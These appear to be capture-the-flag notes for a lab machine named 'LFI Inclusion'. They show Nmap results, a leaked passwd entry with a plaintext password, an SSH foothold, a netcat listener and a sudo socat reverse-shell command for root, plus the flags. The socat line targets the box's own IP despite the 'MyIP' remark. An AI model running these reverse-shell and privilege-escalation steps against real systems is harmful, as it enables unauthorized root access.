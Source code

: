 
# BOX IP : 10.10.244.211

# Machine Name : LFI Inclusion

# Nmap 
Nmap scan report for 10.10.244.211
Host is up (0.42s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 e6:3a:2e:37:2b:35:fb:47:ca:90:30:d2:14:1c:6c:50 (RSA)
|   256 73:1d:17:93:80:31:4f:8a:d5:71:cb:ba:70:63:38:04 (ECDSA)
|_  256 d3:52:31:e8:78:1b:a6:84:db:9b:23:86:f0:1f:31:2a (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 102.00 seconds


# ACCOUNT LIST
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...
falconfeast:rootpassword
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
mysql:x:111:116:MySQL Server,,,:/nonexistent:/bin/false

user.flag : 0989655118397345799


# foot hold
ssh falconfeast@10.10.244.211
password : rootpassword


# macOS Reverse Shell nc command
## nc -l 9999

# Privilege Escalate
RHOST : MyIP
RPORT : nc listen port

sudo socat tcp-connect:10.10.244.211:999 exec:/bin/sh,pty,stderr,setsid,sigint,sane

root.flag : 42964104845495153909